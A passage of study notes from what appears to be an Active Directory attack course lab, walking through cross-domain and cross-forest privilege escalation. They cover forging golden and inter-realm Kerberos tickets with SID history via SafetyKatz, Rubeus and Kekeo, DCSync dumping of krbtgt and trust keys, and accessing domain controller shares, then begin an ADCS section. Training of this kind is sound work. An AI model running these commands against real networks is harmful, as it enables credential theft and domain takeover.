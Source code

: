 `C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<SID> /sids:<SIDS> /krbtgt:<AESkey> /ptt" "exit"` (/sids option is forcefully setting the sIDHistory for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group, it will work because there is a trust relationship between the current DC and the parent DC)
- On any machine on the current domain
`Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'`
`ls \\mcorp-dc.moneycorp.local.kirbi\c$`
`gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local`
`C:AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:administrator /domain:moneycorp.local" "exit"`
- Avoid suspicious logs by using DC group
`C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<SID> /groups:516 /sids:<DC>,S-1-5-9 /krbtgt:<AESkey> /ptt" "exit"`
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"`
S-1-5-21-2578538781-2508153159-3419410681-516 = DC
S-1-5-9 = Enterprise DC
# **Learning Objective 19**
[[Learning Objective 19]]
### **Across Forests**
Across Forests - Trust relationship needs to be established
(basically same flow as in across domain), can't escalate to EA because of SID Filtering, making it not possible to have a sIDHistory across the forest boundary, it will filter any SIDs in the tickets
(as DA),
`C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\ecorp$" "exit"` (extracing the Trust Key shared between the dollarcorp DC and eurocorp DC, hash NTLM)
`C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<SID> /sids:<EAsid> /rc4:<hashNTLM> /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit"` (forge inter-realm TGT across forest)
- ##### ***Abusing with Kekeo***
- ##### ***Get a TGS for a service (CIFS) in the target domain by using the forged trust ticket***
`.\asktgs.exe C:\AD\Tools\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local`
- ##### ***Use the TGS to access the targeted service***
`.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi`
`ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\`
(Tickets for other services, like HOST and RPCSS for WMI, HTTP for PSRemoting and Winrm can be created as well)
- ##### ***Abusing with Rubeus - Using the TGT forged inititally***
`C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt` (request TGS using forget inter-realm TGT)
(It will filter the SID, but the ticket created would still be valid).
`dir \\eurocorp-dc.eurocorp.local\c$` (we wouln't be able to access)
`dir \\eurocorp-dc.moneycorp.local\SharedwithDCorp\` (but we can access if we try a explicitlty shared resource)
`klist purge` (purge all forged tickets)
(create the service ticket again, and it should work)
`net view \\eurocorp-dc.eurocorp.local` (enumerate shares in the domain)
# **Learning Objective 20**
[[Learning Objective 20]]
# **Privilege Escalation - Across Domain Trusts - ADCS**
ADCS - Active Directory Certificate Services, enables use of PKI (Public Key Infrastructure) in AD forest. ADCS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more. "ADCS is the Server Role that allows you to build a PKI and provide Public Key cryptography, digital certificates, and digital signatures capabilities for your organization".
CA - Certification Authority that issues certificates. The server with ADCS role (DC or separate is the CA).
Certificate - Issued to a user or machine and can be used for authentication, encryption, signing, etc